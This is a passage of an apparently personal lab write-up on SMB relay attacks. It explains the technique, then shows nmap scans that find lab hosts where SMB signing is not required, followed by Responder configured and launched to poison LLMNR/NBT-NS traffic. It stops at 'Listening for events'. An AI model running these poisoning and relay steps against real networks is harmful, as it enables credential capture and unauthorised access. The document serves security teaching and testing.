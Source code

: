 
![](assets/Pasted%20image%2020241217203937.png)

# [What is SMB Relay Attack?]()

An **SMB relay attack** is a type of **Man-in-the-Middle (MitM)** attack that exploits the **SMB** protocol. In this attack, an adversary relays SMB authentication requests from a victim to a legitimate server, effectively **impersonating the victim to gain unauthorised access.**

An SMB relay attack is a type of Man-in-the-Middle (MitM) attack that exploits the Server Message Block (SMB) protocol, commonly used in Windows environments for file sharing, printing services, and inter-process communication. In this attack, an adversary relays SMB authentication requests from a victim to a legitimate server, effectively impersonating the victim to gain unauthorised access.

# [How SMB Relay Attacks Work?]()

1. **Intercept SMB Traffic**: The attacker positions themselves between the client (victim) and the server, intercepting SMB traffic.
2. **Relay Authentication**: When the client attempts to authenticate to a malicious SMB server (controlled by the attacker), the attacker captures the credentials (e.g., NTLM challenge/response).
3. **Forward to Legitimate Server**: The attacker forwards the captured credentials to the legitimate server to authenticate as the victim.
4. **Gain Unauthorised Access**: If the server accepts the relayed credentials, the attacker gains access to resources under the victim's permissions.

# [Steps of SMB Relay Attack:]()

## [Responder]()

-  Check if clients are vulnerable to SMB relay attack (look for **message signing enabled but not required**)

***Domain controller***
```
┌─[hexadivine@parrot]─[~]
└──╼ $nmap -p445 -script=smb2-security-mode 192.168.0.2 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 20:58 IST
Nmap scan report for 192.168.0.2 (192.168.0.2)
Host is up (0.00057s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds

```

***Cli***
```
┌─[hexadivine@parrot]─[~]
└──╼ $nmap -p445 -script=smb2-security-mode 192.168.0.3 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 20:56 IST
Nmap scan report for 192.168.0.3 (192.168.0.3)
Host is up (0.00067s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```

```
┌─[hexadivine@parrot]─[~]
└──╼ $nmap -p445 -script=smb2-security-mode 192.168.0.4 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 20:58 IST
Nmap scan report for 192.168.0.4 (192.168.0.4)
Host is up (0.0011s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```

- Configure the responder for this attack (turn off SMB and HTTP)

```
sudo nano /etc/responder/Responder.conf
```
![](assets/Pasted%20image%2020241217204838.png)

- Listen for LLMNR request using responder

```
┌─[hexadivine@parrot]─[~]
└──╼ $sudo responder -I wlp0s20f3 -dwPv
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [ON]
    SMB server                 [OFF]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [wlp0s20f3]
    Responder IP               [192.168.0.105]
    Responder IPv6             [fe80::7635:bf9e:3643:497f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6AVN6QJO1Z1]
    Responder Domain Name      [QQVB.LOCAL]
    Responder DCE-RPC Port     [46425]

[+] Listening for events...

```

